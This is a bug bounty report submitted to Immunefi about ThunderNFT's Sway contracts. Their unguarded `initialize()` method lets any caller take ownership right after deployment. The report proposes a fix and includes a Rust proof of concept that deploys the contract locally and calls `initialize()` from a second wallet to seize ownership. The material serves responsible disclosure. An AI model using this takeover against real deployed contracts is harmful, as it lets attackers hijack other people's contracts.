 
# Smart contract can be taken over by malicious user by back-running deployment

Submitted on Thu Aug 15 2024 13:32:23 GMT-0400 (Atlantic Standard Time) by @jecikpo for [IOP | ThunderNFT](https://immunefi.com/bounty/thundernft-iop/)

Report ID: #34545

Report type: Smart Contract

Report severity: Low

Target: https://github.com/ThunderFuel/smart-contracts/tree/main/contracts-v1/thunder_exchange

Impacts:
- Contract fails to deliver promised returns, but doesn't lose value
- DoS of contract deployment

## Description
## Brief/Intro
Each smart contract in Thunder NFT system has an `initialize()` method which is used to set the owner of the contract. The owner has access to some privileged methods. There is no verification of who can call `initialize()`and hence it can be called by a malicious user right after the contract deployment.

## Vulnerability Details
Each contract has an `initialize()` method, e.g. from the `ThunderExchange` contract:
```
    fn initialize() {
        require(
            !_is_initialized(),
            ThunderExchangeErrors::Initialized
        );
        storage.is_initialized.write(true);

        let caller = get_msg_sender_address_or_panic();
        storage.owner.set_ownership(Identity::Address(caller));

        [ . . . ]
    }
```
We can see here that it can be called by anyone unless it was called already (the check happens through the `_is_initialized()` function. 

A malicious user could be back-running the contract deployment and immediately call the method and hence setting himself as the owner.

## Impact Details
This vulnerability can cause inconvenience within contract deployment as the deployed contract would get useless after a hostile takeover.

In extreme case the takeovers can continue forcing the team to change the code.

## Solution Proposal
Force the owner setting through Sway `configurable` sections which will set the owner during contract deployment making the attack impossible.

## References
https://github.com/ThunderFuel/smart-contracts/blob/260c9859e2cd28c188e8f6283469bcf57c9347de/contracts-v1/thunder_exchange/src/main.sw#L65
        
## Proof of concept
## Proof of Concept
The PoC code is below:
```
use std::str::FromStr;
use std::convert::TryInto;

use fuels::{
    prelude::*, 
    types::ContractId, 
    crypto::SecretKey, 
    types::Identity, 
    types::Bits256
};

use rand::Rng;

// Load abi from json
abigen!(Contract(
    name = "ThunderExchange",
    abi = "thunder_exchange/out/debug/thunder_exchange-abi.json"
));

async fn get_contract_instance() -> (ThunderExchange<WalletUnlocked>, ContractId, WalletUnlocked, AssetId) {
    // Launch a local network and deploy the contract
    let provider = Provider::connect("127.0.0.1:4000").await.unwrap();
    //let provider = Provider::connect("testnet.fuel.network").await.unwrap();

    let secret = match SecretKey::from_str(
        "37787bd2cf8a35b8a5a515c45fa109852162596190babcd775a4d08cb1781e4d"
    ) {
        Ok(value) => value,
        Err(e) => panic!("unable to create secret: {}", e),
    };

    let wallet = WalletUnlocked::new_from_private_key(secret, Some(provider.clone()));

    // Generate a random 32-byte array
    let mut rng = rand::thread_rng();
    let mut bytes = [0u8; 32];
    rng.fill(&mut bytes);

    let salt = Salt::new(bytes);

    let id = Contract::load_from(
        "thunder_exchange/out/debug/thunder_exchange.bin",
        LoadConfiguration::default().with_salt(salt),
    )
    .unwrap()
    .deploy(&wallet, TxPolicies::default().with_script_gas_limit(400000).with_max_fee(400000))
    .await
    .unwrap();

    let instance = ThunderExchange::new(id.clone(), wallet.clone());
    let base_asset_id = provider.base_asset_id();

    (instance, id.into(), wallet, *base_asset_id)
}

#[tokio::test]
async fn test_initialization() {
    let (instance, _id, _wallet, _base_asset_id) = get_contract_instance().await;
    let gas_limit = 400000;
    let owner_address = Identity::Address(Address::from(_wallet.address()));

    let second_wallet = get_second_wallet().await;

    let res = instance.clone()
        .with_account(second_wallet)
        .methods()
        .initialize() // smart contract function
        .with_tx_policies(
            TxPolicies::default()
            .with_script_gas_limit(gas_limit)
        )
        .call()
        .await
        .unwrap();

        println!("read result: {:?}", res.value);
        println!("TX id: {:?}", res.tx_id);
}


async fn get_second_wallet() -> WalletUnlocked {
    let provider = Provider::connect("127.0.0.1:4000").await.unwrap();
    //let provider = Provider::connect("testnet.fuel.network").await.unwrap();

    let secret = match SecretKey::from_str(
        "767e2342a22f23440a0755d24b61112c5cd700a1d8100b873bb7fca2ef2779e2"
    ) {
        Ok(value) => value,
        Err(e) => panic!("unable to create secret: {}", e),
    };

    WalletUnlocked::new_from_private_key(secret, Some(provider))
}
```

We can see that the `initialize()` was called successfully from another wallet.